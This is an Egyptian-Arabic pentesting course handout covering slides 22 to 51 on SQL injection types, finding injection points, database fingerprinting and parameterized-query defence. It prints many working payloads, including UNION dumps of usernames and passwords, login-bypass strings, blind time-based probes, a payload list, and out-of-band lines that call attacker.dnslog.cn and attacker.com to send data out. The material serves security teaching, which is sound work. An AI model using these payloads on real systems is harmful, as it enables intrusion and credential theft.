






# 🎓 الجزء الثاني: أنواع SQL Injection + اصطياد الثغرات
## Slides 22 → 51

---

## 📌 Slide 22: Types of SQL Injection Vulnerabilities
### عنوان القسم: أنواع ثغرات SQL Injection

دلوقتي بعد ما فهمنا يعني إيه SQL Injection وليه خطيرة، هندخل في **التصنيف التفصيلي** لأنواعها.

> مش كل SQLi زي بعضها! فيه أنواع بتديك النتيجة فوراً، وفيه أنواع لازم تستنتج النتيجة من سلوك التطبيق، وفيه أنواع بتبعت البيانات على قناة تانية خالص!

فهمك للأنواع دي هو اللي بيفرّق بين Pentester عادي و Pentester محترف — لأن كل نوع ليه **طريقة اكتشاف مختلفة** و **طريقة استغلال مختلفة**.

---

## 📌 Slide 23: SQL Injection Types & Subtypes

### الشجرة الكاملة لأنواع SQL Injection:



### شرح التقسيم:

| النوع الرئيسي | الأنواع الفرعية | الطريقة |
|--------------|----------------|---------|
| **In-Band SQLi** | Error-Based + Union-Based | النتيجة بترجع **في نفس الصفحة** |
| **Blind SQLi** | Boolean-Based + Time-Based | **مفيش نتيجة مباشرة** — بنستنتج من سلوك التطبيق |
| **Out-of-Band (OOB)** | DNS/HTTP callbacks | البيانات بتتبعت على **قناة تانية** (DNS, HTTP) |

### بالمصري كده:
- **In-Band** = بتسأل السؤال وبتاخد الإجابة **من نفس المكان**. زي ما تسأل واحد وجهاً لوجه ويرد عليك فوراً.
- **Blind** = بتسأل السؤال بس **مش بتسمع الإجابة**. بتلاحظ هل الشخص هز راسه (True) ولا لأ (False)، أو بتقيس الوقت اللي أخذه عشان يرد.
- **OOB** = بتبعت السؤال من باب، والإجابة بتيجيلك **من شباك تاني** خالص (DNS أو HTTP request لسيرفرك).

---

## 📌 Slide 24: In-Band SQL Injection

> **In-Band SQL Injection** هو النوع الأشهر والأكثر انتشاراً. فيه المهاجم بيستخدم **نفس قناة الاتصال** لإرسال الهجوم واستقبال النتائج.

### بالمصري كده:
أنت بتدخل payload في الـ URL أو الفورم، والنتيجة (البيانات المسروقة) بترجعلك **في نفس الصفحة**. يعني مفيش حاجة معقدة — أنت بتبعت وبتستقبل من نفس المكان.

### ليه In-Band خطير؟
- **سهل الاكتشاف:** لأن النتيجة بتظهرلك فوراً
- **سهل الاستغلال:** مش محتاج Setup خارجي
- **سريع:** البيانات بترجع في ثواني
- **التأثير:** سرقة بيانات كاملة، تعديل، حذف، أو السيطرة على السيرفر

---

## 📌 Slide 25: In-Band SQLi - Attack Flow

### رسم توضيحي للهجوم:



### الخطوات:
1. المهاجم بيبعت **Payload** عبر الـ Web Application (مثلاً في URL parameter)
2. التطبيق بيحط الـ Payload في **SQL Query** وبيبعته للداتابيز
3. الداتابيز بتنفذ الأمر وبترجع النتيجة
4. النتيجة بتظهر **للمهاجم في نفس الصفحة**!

> **🔴 من واقع الـ Pentesting:** In-Band SQLi هو أول حاجة بتدور عليها لأنه الأسهل في الاكتشاف. لو دخلت `'` في أي Input وطلعلك Error فيه كلمة "SQL" أو "syntax" — مبروك، 90% فيه ثغرة!

---

## 📌 Slide 26: In-Band SQL Injection Subtypes

> In-Band SQL Injection بيتقسم لنوعين فرعيين:

### 1. Error-Based SQL Injection:
المهاجم بيحقن كود SQL بيخلي التطبيق يطلع **رسالة خطأ** (Error Message). رسالة الخطأ دي ممكن تحتوي على **معلومات قيمة** عن بنية الداتابيز أو محتوياتها!

```sql
-- مثال: حقن يسبب خطأ يكشف اسم الداتابيز
' AND extractvalue(1, concat(0x3a, version())) --
-- الخطأ هيحتوي على رقم إصدار MySQL!
```

### 2. Union-Based SQL Injection:
المهاجم بيستخدم **UNION operator** عشان يدمج نتائج استعلامين أو أكتر في نتيجة واحدة. كده بيقدر يسحب بيانات من **جداول تانية** مش المفروض يوصلها!

```sql
-- مثال: سحب أسماء المستخدمين والباسوردات
' UNION SELECT username, password FROM users --
-- النتيجة هتظهر مع البيانات العادية!
```

| النوع الفرعي | الطريقة | المميزات | العيوب |
|-------------|---------|----------|--------|
| **Error-Based** | استخراج البيانات من رسائل الخطأ | سريع جداً، بيكشف معلومات فوراً | بيعتمد على إن التطبيق يعرض Errors |
| **Union-Based** | دمج استعلام المهاجم مع الاستعلام الأصلي | بيسحب بيانات كاملة | لازم تعرف عدد الأعمدة الأول |

---

## 📌 Slide 27: Error-Based SQLi - Attack Flow

### رسم توضيحي للهجوم:



### كيف بيشتغل:
1. المهاجم بيبعت **Payload** مصمم يسبب خطأ في الـ DBMS
2. الداتابيز بترجع **رسالة خطأ** فيها تفاصيل
3. المهاجم بيستخدم المعلومات دي عشان **يسحب بيانات** (Data Exfiltration)

> **💡 مهم:** Error-Based SQLi بيعتمد على إن التطبيق بيعرض رسائل الخطأ للمستخدم. لو التطبيق بيخفي الأخطاء (Custom Error Pages)، الطريقة دي مش هتنفع وهتحتاج تروح لـ Blind SQLi.

---

## 📌 Slide 28: Blind SQL Injection

> **Blind SQL Injection** هو نوع من SQLi فيه التطبيق **مش بيرجع أي معلومات مفيدة** ومش بيعرض رسائل خطأ. المهاجم لازم يستنتج المعلومات من **سلوك التطبيق** نفسه.

### بالمصري كده:
تخيل إنك بتلعب لعبة "20 سؤال" — بتسأل أسئلة والشخص بيرد **أيوه أو لأ بس**. مش بيقولك الإجابة مباشرةً. أنت بتبني الصورة الكاملة من مجموعة أسئلة True/False!

### تقنيات الـ Blind SQLi:
- **Boolean-Based:** بتلاحظ هل الصفحة اتغيرت (True) ولا لأ (False)
- **Time-Based:** بتقيس الوقت — لو الرد أخد وقت أطول = True

```sql
-- Boolean-Based: لو الصفحة عادية = الحرف الأول من اسم الداتابيز هو 's'
' AND SUBSTRING(database(),1,1) = 's' --

-- Time-Based: لو الرد أخد 5 ثواني = الأدمن اسمه admin
' OR IF(1=1, SLEEP(5), 0) --
```

> **🔴 من واقع الـ Pentesting:** Blind SQLi أصعب بس **أخطر** لأن معظم التطبيقات الحديثة بتخفي رسائل الخطأ. يعني لو ركزت على Error-Based بس، هتفوّت ثغرات كتير!

---

## 📌 Slide 29: Blind SQL Injection Subtypes

### الأنواع الفرعية للـ Blind SQLi:

**1. Boolean-Based Blind Injection:**
المهاجم بيبعت استعلام وبيراقب **استجابة التطبيق** — هل الصفحة ظهرت عادي (True) ولا اتغيرت أو اختفت حاجة (False).

```sql
-- سؤال: هل أول حرف في اسم الداتابيز هو 'a'?
' AND SUBSTRING(database(),1,1) = 'a' -- → الصفحة عادية = TRUE
' AND SUBSTRING(database(),1,1) = 'b' -- → الصفحة مختلفة = FALSE
-- بنكرر لكل حرف لحد ما نعرف الاسم كله!
```

**2. Time-Based Blind Injection:**
المهاجم بيبعت استعلام بيخلي الداتابيز **تستنى وقت معين** قبل ما ترد. بيقيس الوقت — لو أخد أطول = True.

```sql
-- سؤال: هل اسم الداتابيز بيبدأ بـ 's'?
' OR IF(SUBSTRING(database(),1,1)='s', SLEEP(5), 0) --
-- لو الرد أخد 5 ثواني = TRUE!
-- لو الرد جه فوراً = FALSE
```

| النوع | إزاي بتعرف النتيجة | المميزات | العيوب |
|-------|-------------------|----------|--------|
| **Boolean-Based** | تغير في محتوى الصفحة | أسرع من Time-Based | لازم تقدر تفرّق بين True و False |
| **Time-Based** | تأخير في وقت الاستجابة | بيشتغل حتى لو الصفحة مش بتتغير | بطيء جداً (كل حرف = Request) |

---

## 📌 Slide 30: Boolean-Based Blind SQLi - Attack Flow

### رسم توضيحي للهجوم:



### بالمصري كده:
المهاجم بيسأل الداتابيز أسئلة زي:
- "هل اليوزر john موجود?" ← `TRUE` (الصفحة ظهرت عادي)
- "هل اليوزر admin موجود?" ← `TRUE`
- "هل باسورد الأدمن بيبدأ بـ 'p'?" ← `TRUE`
- "هل الحرف التاني 'a'?" ← `TRUE`
- "هل الحرف التالت 's'?" ← `TRUE`

وهكذا حرف حرف لحد ما يعرف الباسورد كله!

---

## 📌 Slide 31: Out-of-Band SQL Injection

> **Out-of-Band (OOB) SQL Injection** هو أقل الأنواع شيوعاً. فيه المهاجم بيخلي الداتابيز تبعت البيانات على **قناة مختلفة** (DNS أو HTTP) — مش من خلال التطبيق نفسه.

### امتى بنحتاجه؟
- التطبيق مش بيعرض Errors (مش Error-Based)
- الصفحة مش بتتغير (مش Boolean-Based)
- Time-Based مبلوك أو بطيء جداً
- بس الداتابيز تقدر تبعت **طلبات خارجية** (DNS/HTTP)

```sql
-- MySQL: بيخلي الداتابيز تعمل DNS lookup لسيرفرك
' UNION SELECT LOAD_FILE('\\\\attacker.dnslog.cn\\file') --

-- MSSQL: بيبعت HTTP request لسيرفرك
'; EXEC xp_cmdshell 'curl http://attacker.com?data=secret' --
```

> **💡 ده زي إنك تبعت رسالة لصاحبك في الشغل (القناة العادية)، بس رده ييجيلك على الموبايل (قناة تانية خالص)!**

---

## 📌 Slide 32: Out-of-Band SQLi - Attack Flow

### رسم توضيحي:



### النقطة المهمة:
الفرق الأساسي عن In-Band إن هنا **قناتين**:
- **قناة الهجوم:** الـ Web Application (Request العادي)
- **قناة استقبال البيانات:** DNS/HTTP Server بتاعك

---

## 📌 Slide 33: Hunting for SQL Injection Vulnerabilities
### عنوان القسم: اصطياد ثغرات SQL Injection

> عشان تستغل SQLi، لازم **الأول تلاقي نقطة الحقن** (Injection Point). بعدها تقدر تصمم Payload مناسب.

### المنهجية:
1. **حدد نقاط الإدخال:** كل مكان المستخدم بيدخل فيه بيانات
2. **اختبر بحروف خاصة:** `'` و `"` و `#` و `--`
3. **راقب الاستجابة:** Error messages، تغير في المحتوى، تأخير
4. **أكّد الثغرة:** استخدم Payloads منطقية (AND 1=1 vs AND 1=2)

> **ملاحظة مهمة:** مش كل الـ Input Fields بتتفاعل مع الداتابيز! عشان كده لازم تعمل **Reconnaissance** الأول وتفهم إيه اللي بيروح للداتابيز وإيه لأ.

---

## 📌 Slide 34: Finding SQL Injection - Injection Points

### أماكن الحقن الشائعة:



---

## 📌 Slide 35: Common Injectable Fields (Part 1)

| الحقل | الوصف | مثال |
|-------|-------|------|
| **Login Forms** | حقول الـ Username والـ Password — أول مكان يتم اختباره | `username: ' OR '1'='1' --` |
| **Search Boxes** | حقول البحث اللي بتتحول لـ SQL Query | `search: ' UNION SELECT * FROM users --` |

### بالمصري كده:
- **Login Form:** ده المكان الكلاسيكي لـ SQLi. كل Pentester بيبدأ منه! لو كتبت `' OR '1'='1' --` في خانة اليوزر ودخلت — الموقع عنده مشكلة كبيرة 😂
- **Search Box:** الناس بتنسى إن Search بيتحول لـ `SELECT * FROM products WHERE name LIKE '%<input>%'`. لو حطيت `'` والموقع وقع — مبروك!

---

## 📌 Slide 36: Common Injectable Fields (Part 2)

| الحقل | الوصف | مثال |
|-------|-------|------|
| **URL Parameters** | الـ GET Parameters اللي في الـ URL Bar | `?id=1' OR '1'='1` |
| **Form Fields** | أي فورم — Registration, Contact, Comments | التسجيل بـ `username: admin'--` |
| **Hidden Fields** | حقول مخفية في الـ HTML — المبرمجين فاكرين إنها آمنة! | تعديل الـ Hidden Field عبر Burp |
| **Cookies** | الـ Cookies اللي بتتبعت مع كل Request | تعديل `session_id` cookie |

> **🔴 من واقع الـ Pentesting:** أكتر مكان لقيت فيه SQLi مخبية كان في **Hidden Fields** و **Cookies**! المبرمجين بيفلتروا الـ Input الظاهر بس بينسوا الحاجات اللي المستخدم "المفروض" مش يشوفها. بس أنت عندك **Burp Suite** — أنت شايف كل حاجة! 😈

---

## 📌 Slide 37: Methods for Identifying SQLi

> تحديد ثغرات SQLi بيكون عن طريق مزج بين **الاختبار اليدوي** و **الأدوات الآلية**.

### الاختبار اليدوي:
1. **حقن مدخلات خبيثة:** جرب `'` و `"` و `--` في كل حقل إدخال
2. **مراقبة السلوك:** دور على رسائل خطأ، سلوك غريب، أي مؤشر إن المدخل بيتفسر كـ SQL

### الاختبار القائم على الأخطاء (Error-Based):
- ابعت مدخلات غلط عمداً عشان تطلّع رسائل خطأ من الداتابيز
- لو رسالة الخطأ فيها كلمات زي `syntax`, `MySQL`, `ODBC`, `SQL` — ده مؤشر قوي!

---

## 📌 Slide 38: Testing Techniques

### تقنيات الاختبار المتقدمة:

| التقنية | الشرح | المثال |
|---------|-------|--------|
| **Union-Based Testing** | حقن `UNION SELECT` عشان تشوف لو التطبيق بيرجع بيانات إضافية | `' UNION SELECT NULL, NULL --` |
| **Boolean-Based Testing** | تلاعب بالشروط المنطقية عشان تشوف لو الصفحة بتتغير | `' OR '1'='1` vs `' OR '1'='2` |
| **Time-Based Testing** | حقن تأخير زمني عشان تشوف لو الرد بيتأخر | `' OR SLEEP(5) --` |

### القاعدة الذهبية:
```
لو الصفحة مع ' OR '1'='1 ≠ الصفحة مع ' OR '1'='2
   └── يبقى فيه SQL Injection! ✅
```

---

## 📌 Slide 39: Input Validation & Automated Testing

### الـ Source Code Review:
- راجع الكود ودور على أماكن الـ Input بيتحط مباشرةً في SQL Query
- لو لقيت **String Concatenation** بدل **Prepared Statements** → ده مكان ثغرة!

```python
# ❌ ده Vulnerable:
query = "SELECT * FROM users WHERE name = '" + user_input + "'"

# ✅ ده Safe (Parameterized):
query = "SELECT * FROM users WHERE name = %s"
cursor.execute(query, (user_input,))
```

### الاختبار الآلي:
- **SQLMap:** أقوى أداة لاكتشاف واستغلال SQLi تلقائياً
- **OWASP ZAP:** بيعمل Scan شامل للثغرات
- **Burp Suite Scanner:** بيختبر كل الـ Parameters تلقائياً

> **⚠️ تحذير مهم:** الأدوات الآلية مفيدة بس **مش بديل عن الاختبار اليدوي**! أكدّ كل نتيجة يدوياً عشان تتجنب الـ False Positives.

---

## 📌 Slide 40: SQL Injection Testing

### قواعد الاختبار الأساسية:

| ما يتم اختباره | الشرح |
|----------------|-------|
| **String Terminators** | `'` و `"` — بيقفلوا الـ String في SQL |
| **SQL Commands** | `SELECT`, `UNION`, `INSERT`, `UPDATE`, `DELETE` |
| **SQL Comments** | `#` أو `--` — بيعلّقوا باقي الاستعلام |

### ⚡ قاعدة ذهبية:
> **اختبر حقنة واحدة في المرة!** لو جربت كذا Payload مع بعض ونجح واحد — مش هتعرف أيهم اللي نجح!

```sql
-- جرب الأول ده:
'
-- لو طلع Error → جرب:
' OR '1'='1' --
-- لو نجح → أكدّ بـ:
' OR '1'='2' --
-- لو الأول رجّع نتيجة مختلفة عن التاني = SQLi مؤكدة! ✅
```

---

## 📌 Slide 41: Integer-Based Injection

> **حقن المعامل الرقمي (Integer-Based):** في بعض الحالات الاستعلام بيتعامل مع المدخل كـ **رقم** (Integer) مش String.

### الفرق:
```sql
-- String-Based:
SELECT * FROM Users WHERE name = 'FUZZ'
-- ^ لاحظ الـ quotes حوالين المدخل

-- Integer-Based:
SELECT * FROM Users WHERE id = FUZZ
-- ^ مفيش quotes — الـ Input بيتحط كرقم مباشرةً
```

### مثال عملي:
```
URL: http://site.com/user.php?id=1
                                 ↑ ده Integer parameter
```

في الحالة دي، جرب عمليات منطقية ورياضية بدل الـ Quote:

---

## 📌 Slide 42: Integer-Based Injection Payloads

### أشهر الـ Payloads للـ Integer-Based:

| Payload | النتيجة المتوقعة | المعنى |
|---------|-------------------|--------|
| `AND 1` | True | لو الصفحة عادية = الـ AND بيتنفذ |
| `AND 0` | False | الصفحة لازم تتغير |
| `AND true` | True | نفس فكرة AND 1 |
| `AND false` | False | نفس فكرة AND 0 |
| `1-false` | Returns 1 if vulnerable | لأن `false` = 0 في SQL |
| `1-true` | Returns 0 if vulnerable | لأن `true` = 1 في SQL |
| `1*56` | Returns 56 if vulnerable | لو الداتابيز حسبت 1×56 = Injectable |

### القاعدة:
```
لو id=1 AND 1 → صفحة عادية
و id=1 AND 0  → صفحة مختلفة
   └── يبقى الـ Parameter ده Injectable! ✅
```

---

## 📌 Slide 43: String-Based Injection

> **حقن المعامل النصي (String-Based):** لما الاستعلام بيتعامل مع المدخل كـ **نص** (String) محاط بـ Quotes.

```sql
-- الاستعلام:
SELECT * FROM Users WHERE name = 'FUZZ'

-- URL:
http://site.com/user.php?id=alexis
```

### Payloads للاختبار:

| Payload | النتيجة | الشرح |
|---------|---------|-------|
| `'` | False (Error) | بيكسر الـ String — لو طلع Error = ممكن injectable |
| `''` | True | Quote مزدوج بيقفل نفسه — الصفحة ترجع عادي |
| `"` | False (Error) | نفس الفكرة بس مع Double Quote |
| `""` | True | نفس الفكرة |

### الخلاصة:
- لو `'` سبب Error و `''` رجّع الصفحة عادي → **String-Based SQLi**!

---

## 📌 Slide 44: Exploiting the Single Quote (')

> الـ **Single Quote** (`'`) هو **السلاح الأول** في أي هجوم SQLi. في SQL، الـ `'` بيُستخدم لتحديد حدود النصوص (String Literals).

### إزاي بيشتغل الاستغلال:

المشكلة بتحصل لما المبرمج بيحط المدخل مباشرةً في الـ Query:

```sql
-- الكود الأصلي:
SELECT * FROM users WHERE username = '<username>' AND password = '<password>'

-- 🔴 مفيش Sanitization!
-- المدخل بيتحط كما هو جوه الـ Query
```

> لو التطبيق مش بيعمل **Escape** للـ `'`، المهاجم يقدر يكسر بنية الاستعلام ويضيف أوامره الخاصة!

---

## 📌 Slide 45: Exploiting the Single Quote - Example

### مثال عملي:

```sql
-- المهاجم بيدخل ده كـ Username:
' OR '1'='1';  --

-- الاستعلام الأصلي كان:
SELECT * FROM users WHERE username = '<username>' AND password = '<password>'

-- بعد الحقن بقى:
SELECT * FROM users WHERE username = '' OR '1'='1';  --' AND password = '<password>'
```

### تحليل الحقن خطوة بخطوة:

```
' OR '1'='1';  --
│ │    │        │
│ │    │        └── Comment: بيعلّق كل اللي بعده (AND password = ...)
│ │    └────────── '1'='1' دايماً TRUE!
│ └─────────────── OR: بيضيف شرط جديد
└───────────────── ': بيقفل الـ String بتاعت الـ username
```

> **النتيجة:** الاستعلام بيرجع **كل الـ Users** لأن `'1'='1'` دائماً True! المهاجم بيدخل كأول يوزر — عادةً **Admin**!

---

## 📌 Slide 46: Exploiting the Single Quote - Modified Query

### الاستعلام المعدل بعد الحقن:

```sql
SELECT * FROM users WHERE username = '' OR '1'='1';  -- ' AND password = '<password>'
```

**تحليل المنطق:**
- `username = ''` → False (مفيش يوزر اسمه فاضي)
- `OR '1'='1'` → **True دائماً!**
- `-- ' AND password = '...'` → **متعلّق!** الداتابيز مش بتشوفه

**النتيجة النهائية:**
```
False OR True = True
→ الاستعلام بيرجع كل الصفوف!
→ المهاجم بيدخل كأول يوزر في الجدول!
→ عادةً ده بيكون الـ Admin! 💀
```

> **🔴 من واقع الـ Pentesting:** واحد من كل 3 تطبيقات بختبرها بيكون فيه Login form قابل لـ Authentication Bypass عبر `' OR '1'='1' --`. مع إن الثغرة دي عمرها 25+ سنة!

---

## 📌 Slide 47: Database Fingerprinting

> كل **DBMS** (Database Management System) بيرجع رسائل خطأ **مختلفة**. من شكل رسالة الخطأ تقدر تعرف نوع الداتابيز!

### أمثلة:

| الداتابيز | شكل رسالة الخطأ |
|-----------|----------------|
| **MS-SQL** | `Incorrect syntax near [query snippet]` |
| **MySQL** | `You have an error in your SQL syntax. Check the manual that corresponds to your MySQL server version...` |
| **PostgreSQL** | `ERROR: syntax error at or near...` |
| **Oracle** | `ORA-00933: SQL command not properly ended` |

### ليه ده مهم؟
لأن كل داتابيز ليها **Syntax مختلف** و **Payloads مختلفة**! لو عرفت إنها MySQL هتستخدم `#` كـ comment، بس لو MSSQL هتستخدم `--`. لو Oracle هتستخدم `||` للـ concatenation بدل `+`.

```sql
-- MySQL comment:
' OR '1'='1' #

-- MSSQL/PostgreSQL comment:
' OR '1'='1' --

-- Oracle concatenation:
' || (SELECT banner FROM v$version) || '
```

---

## 📌 Slide 48: Common SQLi Payloads

### قائمة الـ Payloads الأساسية:

```sql
-- الأساسيات:
'
''
`
``
,
"
""
/
//
\
;

-- تعليقات:
' OR " -- 
' OR " #

-- Auth Bypass:
' OR '1
' OR 1 --
" OR "" = "
" OR 1 = 1 --
' OR '' = '
'='
'LIKE'
'=0--+

-- شروط منطقية:
OR 1=1
' OR 'x'='x
' AND id IS NULL; --
' or '1'='1 --
' or ('1'='1' -–

-- حيل:
Admin' --
Admin' #
' having 1=1 --
' or b=b --
' or 1=1#
' or 2 > 1 --
```

> **💡 نصيحة:** خزّن الـ Payloads دي في ملف واحد على جهازك. في كل Pentest، جرب الأول يدوي مع أبسط Payloads، وبعدين استخدم ملف الـ Payloads مع Burp Intruder عشان تختبر كلهم!

---

## 📌 Slide 49: Database-Specific SQLi Payloads

### Payloads مخصصة لكل نوع داتابيز:

```sql
-- يشتغل على MySQL, MSSQL, Oracle, PostgreSQL, SQLite:
' OR '1'='1' –

-- يشتغل على MySQL:
' OR '1'='1' /*
' OR '1'='1' #

-- يشتغل على Access (باستخدام Null Characters):
' OR '1'='1' %00
' OR '1'='1' %16
```

### جدول مرجعي سريع:

| الداتابيز | Comment Syntax | String Concat | Version Query |
|-----------|---------------|---------------|---------------|
| **MySQL** | `#` أو `-- ` أو `/**/` | `CONCAT('a','b')` | `SELECT @@version` |
| **MSSQL** | `--` أو `/**/` | `'a'+'b'` | `SELECT @@version` |
| **Oracle** | `--` | `'a'\|\|'b'` | `SELECT banner FROM v$version` |
| **PostgreSQL** | `--` أو `/**/` | `'a'\|\|'b'` | `SELECT version()` |
| **SQLite** | `--` أو `/**/` | `'a'\|\|'b'` | `SELECT sqlite_version()` |

---

## 📌 Slide 50: OWASP Testing Checklist - SQLi

### قائمة الاختبار من OWASP:

> مرجع مهم: [OWASP Testing Checklist](https://github.com/tanprathan/OWASP-Testing-Checklist)

الـ OWASP WSTG (Web Security Testing Guide) بيقدم **Checklist منهجية** لاختبار أي تطبيق ويب ضد SQLi. الـ Checklist دي بتغطي:

- ✅ تحديد كل نقاط الإدخال
- ✅ اختبار كل نقطة بـ Payloads أساسية
- ✅ اختبار Error-Based, Boolean-Based, Time-Based
- ✅ اختبار Union-Based و OOB
- ✅ اختبار Stored Procedures
- ✅ اختبار Second-Order SQLi
- ✅ التحقق من الـ Parameterized Queries

> **🔴 من واقع الـ Pentesting:** في التقارير الاحترافية، لازم تربط كل ثغرة بـ **OWASP WSTG reference**. مثلاً: `WSTG-INPV-05: Testing for SQL Injection`. ده بيدي التقرير مصداقية ويخلي العميل يعرف إنك بتتبع منهجية معترف بيها دولياً.

---

## 📌 Slide 51: SQLi Resources

### مصادر مهمة للـ SQL Injection:

| المصدر | الرابط | الوصف |
|--------|--------|-------|
| **Payload Lists** | github.com/payloadbox/sql-injection-payload-list | مجموعة ضخمة من الـ Payloads |
